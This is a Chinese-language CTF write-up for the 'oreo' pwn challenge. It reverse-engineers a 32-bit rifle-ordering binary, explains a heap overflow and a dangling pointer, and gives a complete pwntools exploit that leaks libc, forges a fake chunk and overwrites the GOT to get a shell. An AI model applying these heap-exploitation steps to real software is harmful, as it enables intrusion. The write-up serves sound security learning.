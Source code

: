 ## Reverse Analysis

```C
  puts("What would you like to do?\n");
  printf("%u. Add new rifle\n", 1);
  printf("%u. Show added rifles\n", 2);
  printf("%u. Order selected rifles\n", 3);
  printf("%u. Leave a Message with your Order\n", 4);
  printf("%u. Show current stats\n", 5);
  printf("%u. Exit!\n", 6);
```

以为会是卖饼干的，结果是卖军火的，sad

```bash
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
```

```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

### add()

```C
  v1 = record;//record是bss段的全局变量
  record = (char *)malloc(0x38u);//大小是 0x38 大小，所以其对应的 chunk 为 0x40
  if ( record )
  {
    *((_DWORD *)record + 13) = v1;
      //record + 52(13*4,4是DWORD的长度)的地址存放下一个record，记为last_record
    printf("Rifle name: ");
    fgets(record + 25, 56, stdin);//record + 25的地址存放rifle_name，最大长为56
    check(record + 25);//把fgets读取到的末尾的'\n'改成\x00，截断
    printf("Rifle description: ");
    fgets(record, 56, stdin);//record的地址存放rifle_description，最大长为56
    check(record);
    ++number;
  }
  else
  {
    puts("Something terrible happened!");
  }
```

可以看到，从record + 25到record + 52有31个字节，而这里可以读入56个字节，说明rifle_name可以覆盖掉record + 52的last_record指针

存在堆溢出漏洞：record总大小才0x40,name都读到+81的地方了，会覆盖到下一个chunk

```
record的布局
record + 0         record + 25       record + 52       record + 81
+-----------------+----------+------------------+------+
|rifle_description|rifle_name|      |last_record|      |
+-----------------+----------+------------------+------+
```

### show()

```C
  printf("Rifle to be ordered:\n%s\n", "===================================");
  for ( i = record; i; i = (char *)*((_DWORD *)i + 13) )//注意这里和add()一样是作为DWORD解析的
  {
    printf("Name: %s\n", i + 25);
    printf("Description: %s\n", i);
    puts("===================================");
  }
```

  每个chunk的+52位构成了一个单链表，这里遍历了该链表

### message()

```C
  printf("Enter any notice you'd like to submit with your order: ");
  fgets(message_0, 0x80, stdin);//向message_0指向的地址写入0x80个字符
  check(message_0);
```

我们可以往这里输入ROP chain，通过申请fake chunk执行ROPchain

### order()

```C
  v2 = record;
  if ( number )
  {
    while ( v2 )
    {
      ptr = v2;
      v2 = (char *)*((_DWORD *)v2 + 13);//注意这里和add()一样是作为DWORD解析的
      free(ptr);
    }//清空购物车
    record = 0;//只是将最后一个record置零了
    ++order_times;
    puts("Okay order submitted!");
  }
  else
  {
    puts("No rifles to be ordered!");
  }
```

没有将所有被释放的指针置零，存在dangling pointer

## Exploitation

利用思路：

1. 通过堆溢出覆盖next_record为got表地址，再通过show() leak libc。

2. **伪造chunk**

   我们希望申请到message_0正好是fd指针的chunk，就需要将message_0 - 4(fake_chunk_size)，即number的内容改写为0x40（因为rifle的大小是0x38，对应chunk大小为0x40），也就是add0x40个rifle。

3. 现在可以进行任意地址写了，改写某 got 为 system 地址（这里能直接利用且无伤大雅的好像也只有strlen了），就能get shell

exp:

 ```python
from pwn import *
context.log_level = 'debug'
context.timeout = 0.1
io=process('./oreo')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf=ELF('./oreo')

#------------define function------------#
def logmess(a,b):
	log.success(a+'==>'+hex(b))

def addrifle(name,description):
	#io.sendline('1')
	io.sendlineafter('Action:','1')
	io.sendlineafter('Rifle name:',name)
	io.sendlineafter('Rifle description:',description)
	
 
def order_del():
	io.sendlineafter('Action: ','3')

def showrifle():
	io.sendlineafter('Action: ','2')

def leavemessage(message):
	io.sendlineafter('Action: ','4')
	io.sendlineafter("Enter any notice you'd like to submit with your order:",message)

def stats():
	io.sendlineafter('Action: ','5')

#----------------leak libc ---------------#
#gdb.attach(io)
addrifle('a','a')
order_del()    #run free to make free_got right
name = 'a'*27 + p32(elf.got['free'])    #name + last_heap
logmess('free_got',elf.got['free'])
addrifle(name,'a'*25)
showrifle()
io.recvuntil('Description: ')
io.recvuntil('Description: ')
free_addr = u32(io.recv(4).ljust(4,'\x00'))
logmess('free_addr',free_addr)
libc_base = free_addr-libc.symbols['free']
logmess('libc_base',libc_base)
system_addr = free_addr+libc.symbols['system']-libc.symbols['free']
logmess('system_addr',system_addr)

#------------fake chunk----------------#
for i in range(0x40-2-1): # make sure there is 0x40 rifles in total
    addrifle('a'*27+p32(0),str(i))
message_addr = 0x0804a2a8
payload = 'b'*27 + p32(message_addr)
addrifle(payload,'b') 
payload = 'a'*(0x20-4)+'\x00'*4 + 'a'*4 + p32(100)
# 0x20 *'a' for padding the last fake chunk
# 0x40 for fake chunk's next chunk's prev_size
# 0x100 for fake chunk's next chunk's size
# set fake iofle' next to be NULL
leavemessage(payload)
order_del()
io.recvuntil('submitted!\n')
#------------hijack got----------------#
payload = p32(elf.got['fgets'])
addrifle('b',payload)
leavemessage(p32(system_addr)+';/bin/sh\x00')
#------------get shell----------------#
io.interactive()
 ```

这题是远古题了，交互写的不好，有奇奇怪怪的问题


